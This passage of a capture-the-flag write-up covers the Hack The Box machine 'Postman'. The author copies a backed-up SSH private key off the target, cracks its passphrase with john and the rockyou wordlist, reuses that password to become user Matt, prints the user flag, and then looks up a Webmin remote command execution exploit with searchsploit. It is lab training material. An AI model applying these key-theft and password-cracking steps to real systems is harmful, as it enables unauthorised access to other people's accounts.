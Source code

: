 Wow, is that a backup of the user's `id_rsa`. I think it is. Let's download this and try to use it.
```
$ scp -i ssh_redis redis@10.10.10.160:/opt/id_rsa.bak ./ssh_Matt
id_rsa.bak                                                    100% 1743    31.0KB/s   00:00
$ ssh -i ssh_Matt Matt@10.10.10.160
Enter passphrase for key 'ssh_Matt':
```
<br />

Yeah, that was too easy. Of course it'd be password protected. Let's crack this SSH key.
```
$ /usr/share/john/ssh2john.py ssh_Matt > ssh_Matt.hash
$ john ssh_Matt.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (ssh_Matt)
1g 0:00:00:04 DONE (2019-12-30 16:50) 0.2493g/s 3576Kp/s 3576Kc/s 3576KC/s  0125457423 ..\*7¡Vamos!
Session completed
```
<br />

Nice, so the password for the SSH key is `computer2008`. Let's try to SSH in now.
```
ssh -i ssh_Matt Matt@10.10.10.160
Enter passphrase for key 'ssh_Matt': 
Connection closed by 10.10.10.160 port 22
```
<br />

Weird. It doesn't seem to be working. Let's try SSH'ing into the `redis` user and logging into Matt's account that way. Hopefully he re-used his password?
```
redis@Postman:~$ su - Matt
Password: 
Matt@Postman:~$
```
<br />

Nice. We have user.
```
Matt@Postman:~$ cat user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```
<br />

## Getting Root
Since further enumeration inside the server doesn't seem to reveal anything, I think we should take a look at that Webmin server we found earlier.
```
$ searchsploit webmin
------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                           |  Path
                                                                         | (/usr/share/exploitdb/)
------------------------------------------------------------------------- ----------------------------------------
Webmin 1.910 - 'Package Updates' Remote Command Execution (Metasploit)   | exploits/linux/remote/46984.rb
------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result
```